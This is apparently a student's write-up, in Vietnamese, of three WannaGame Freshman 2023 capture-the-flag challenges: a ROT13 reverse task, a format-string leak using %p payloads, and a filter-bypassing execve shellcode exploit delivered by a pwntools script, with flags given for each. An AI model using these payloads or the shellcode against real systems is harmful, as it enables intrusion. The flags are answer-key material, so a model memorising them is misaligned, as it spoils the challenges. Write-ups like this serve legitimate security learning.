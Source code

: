 # REVERSE: Welcome 
```
**Level: easy
Decscripton: I just want to welcome you to the WannaGame Freshman 2023!!!**
```
[Welcome](https://cnsc.uit.edu.vn/ctf/files/d68c3530e27c38b01ab02fd39935b4dd/Welcome?token=eyJ1c2VyX2lkIjo4NjAsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjE2N30.ZU-PvQ.s8HZnrcMrIFmWTVejrlWtkYPcow)
**SOLUTION**
 - Đầu tiền em sẽ check xem thử nó định dạng gì. May quá nó thuộc ELF=))
```
Welcome: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, Go BuildID=XK8IRhzzBz5sOMhBwP-y/TR1mump5NAgqwCo6YuU-/kY8ewioQ25QNkmd1jqrG/606MEB1jPfUXaw2zBueX, stripped
```
 - Tiếp theo em quăng nó vào `Cutter` để disas nó ra thử.
![Screenshot from 2023-11-11 09-42-16](https://hackmd.io/_uploads/HJelQzaXT.png)
 - Quan sát thấy không gì đặc biệt nhưng nếu nhìn kỹ sẽ thấy một string khá đang nghi "có thể là flag"`J1_LBH_QVQ_VG______JRYPBZR_GB_GUR_JNAANTNZR_SERFUZNA_2023`
 - Nhìn tiếp ở bên dưới sẽ thấy chương trình gọi hàm` sym.go.main.rot`, click đúp vào hàm sẽ thấy một đoạn code khá dài 
  ![Screenshot from 2023-11-11 09-46-51](https://hackmd.io/_uploads/B1IOVfaXa.png)
 - Đọc sơ qua thì có thể hiểu đoạn code này dùng để encrypt `flag` của ta cần tìm theo ROT13. Vì vậy để decrypt lại em dùng `Cyberchef`
 - Copy đoạn ta nghi ngờ là flag và chọn ROT13 và lấy flag
 
`W1{YOU_DID_IT######WELCOME_TO_THE_WANNAGAME_FRESHMAN_2023!!!!!!!}`

---
# PWNable
## Pierre De Fermat
[Pierre](https://cnsc.uit.edu.vn/ctf/files/eb3dfa4a7737be8c6acaf084b031adcd/pierre_de_fermat.zip?token=eyJ1c2VyX2lkIjo4NjAsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjE1NX0.ZU-dSw.rQB2lbkjUxxcskSIG9uctIBt2CE)
- Có bug format string ở đây
```
  fgets(format, v3 + 1, stdin);
  snprintf(v29, 0x95uLL, format);
```
- em theo link hướng dẫn https://www.youtube.com/watch?v=Vkv3s-_DYnM&list=PLEvZsp0uc3SEvgL_aZ9dtQ480RAdp6qQM&index=12
- Khi này e debug và dừng ở sprintf, em thấy flag được đưa vào stack => %p để leak
![image](https://hackmd.io/_uploads/SkFGYzaQa.png)
- `"%20$p|%21$p|%22$p|%23$p|%24$p|%25$p"`
```
Welcome to the House of F3rm4t
Input your valid size of name: 40
Input your name: %20$p|%21$p|%22$p|%23$p|%24$p|%25$p
Here is your magic: 0x5f733330647b3157|0x735f74346d723366|0x75765f674e317274|0x336c623472336e6c|0x646165645f73695f|0x726576335f6e695f
Bye, see u next year!!!
```
- `%26$p|%27$p|`
```
Welcome to the House of F3rm4t
Input your valid size of name: 40
Input your name: %26$p|%27$p|
Here is your magic: 0x3f3f5f6674635f79|0xe6be7b007d3f3f3f|
Bye, see u next year!!!
```

- Khi này em dùng kt.gy để reverse lại vì bị in ngược
- ![image](https://hackmd.io/_uploads/HJDj9M6Qa.png)
- ![image](https://hackmd.io/_uploads/ryvq5G6QT.png)
```W1{d03s_f3rm4t_str1Ng_vuln3r4bl3_is_dead_in_3very_ctf_?????}```


## Shellez
[Shellez](https://cnsc.uit.edu.vn/ctf/files/d8a1e52ec8300dee15945ed4b29109b2/shellez.zip?token=eyJ1c2VyX2lkIjo4NjAsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjE1OH0.ZU-dqQ.hiccHJQuoZGdP22gKpEbjkCmAac)
- Bài này có vẻ filter 'sh'
```
result = strstr(a1, "sh");
  if ( result )
  {
LABEL_3:
    puts("This magic is unacceptable");
    exit(-1);
  }
```
- shellcode https://www.youtube.com/watch?v=OSlZZ3DecnQ&list=PLof-ZrQ3ol6Vhwnf4tuConmNBgIjrPKh4&index=5
- Nhờ kiến thức reverse nên ta có cách bypass filter 'sh' bằng cách sau
```
                xor    rdi,rdi
                push   rdi
                movabs rdi,0x7b443c187d5e7118
                movabs rax, 0x1337133713371337
                xor rdi, rax
```
- xor rdi, rax sẽ trả về
```
>>> hex(0x7b443c187d5e7118^0x1337133713371337)
'0x68732f2f6e69622f'    # /bin//sh
```
- em dùng https://defuse.ca/online-x86-assembler.htm#disassembly có được các byte shell



- script
```python=
from pwn import *
p = remote('45.122.249.68', 20005)
# p = process(exe.path)
gdb.attach(p, gdbscript='''
b* 0x5555555553f8

c
''')
input()


shell = "\x48\x31\xFF\x57\x48\xBF\x18\x71\x5E\x7D\x18\x3C\x44\x7B\x48\xB8\x37\x13\x37\x13\x37\x13\x37\x13\x48\x31\xC7\x57\x48\x89\xE7\x48\x31\xF6\x48\x31\xD2\x48\x89\xE7\x48\x31\xC0\x48\x83\xC0\x3B\x0F\x05"
p.sendlineafter(b"magic", shell)
p.interactive()
```
```
W1{Sh311c0d1ng_1s_th3_m05t_b4s1c_5ki115_1n_b1n4ry_3xpl01t4ti0n_uh_huh
```